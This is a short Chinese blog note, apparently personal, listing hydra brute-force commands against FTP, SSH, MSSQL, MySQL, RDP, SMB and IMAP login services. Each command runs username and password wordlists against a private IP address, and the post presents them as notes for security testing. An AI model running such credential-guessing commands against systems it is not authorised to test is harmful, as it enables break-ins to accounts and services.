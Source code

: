 ```yaml
---
layout: post
title: "hydra常见服务爆破命令"
date: 2019-05-11
description: "Web安全"
tag: Web安全
---
```

---

### 前言

整理一下 hydra 端口爆破命令语法 <br>

---


### 目录：

* <a href="#one" target="_self">简介</a>
* <a href="#a1" target="_self">1. 21端口爆破命令</a>
* <a href="#a2" target="_self">2. 22端口爆破命令</a>
* <a href="#a3" target="_self">3. 1433端口爆破命令</a>
* <a href="#a4" target="_self">4. 3306端口爆破命令</a>
* <a href="#a5" target="_self">5. 3389端口爆破命令</a>
* <a href="#a6" target="_self">6. smb服务爆破命令</a>
* <a href="#a7" target="_self">7. imap服务爆破命令</a>
* <a href="#zg" target="_self">总结</a>

-------


### <span id = "one">简介</span>

hydra 也称九头蛇，<br>

是著名黑客组织thc的一款开源的暴力密码破解工具，可以破解多种密码。 <br>

-----


### <span id = "a1">1. 21端口爆破命令</span>

21端口主要用于FTP(File Transfer Protocol，文件传输协议)服务，<br>

FTP服务主要是为了在两台计算机之间实现文件的上传与下载， <br>

命令： <br>
```bash
hydra 192.168.0.1 ftp -L /root/user.txt -P /root/password.txt -vV 
```

-----

### <span id = "a2">2. 22端口爆破命令</span>

22端口是Linux操作系统 SSH 远程登录协议，<br>

类似于Windows的 3389， <br>

命令： <br>
```bash
hydra ssh://192.168.0.1 -L /root/user.txt -P /root/password.txt --vV
```

-----

### <span id = "a3">3. 1433端口爆破命令</span>

1433端口是SQL Server默认的端口，<br>

SQL Server服务使用两个端口:TCP-1433、UDP-1434。<br>

其中1433用于供SQL Server对外提供服务，1434用于向请求者返回SQL Server使用了哪个TCP/IP端口。，<br>

命令： <br>
```bash
hydra 192.168.0.1 mssql -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a4">4. 3306端口爆破命令</span>

3306 是MySQL的默认端口，<br>

命令： <br>
```bash
hydra 192.168.0.1 mysql -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a5">5. 3389端口爆破命令</span>

3389 是Windows远程桌面的默认端口，<br>

命令： <br>
```bash
hydra 192.168.0.1 rdp -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a6">6. smb服务爆破命令</span>

SMB(Server Message Block) 是一种通信协议，<br>

一般使用端口 139，445 <br>

命令： <br>
```bash
hydra smb://192.168.0.1 -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a7">7. imap服务爆破命令</span>

IMAP(Internet Mail Access Protocol，Internet邮件访问协议) ，<br>

使用的端口是 143 <br>

命令： <br>
```bash
hydra 10.36.16.18 imap PLAIN -L /root/user.txt -P /root/password.txt 
```

-----

-----


### <span id = "zg">总结</span>

做个笔记吧，<br>

使用少都忘了，<br>

在安全测试中还是用的比较多的。

--------
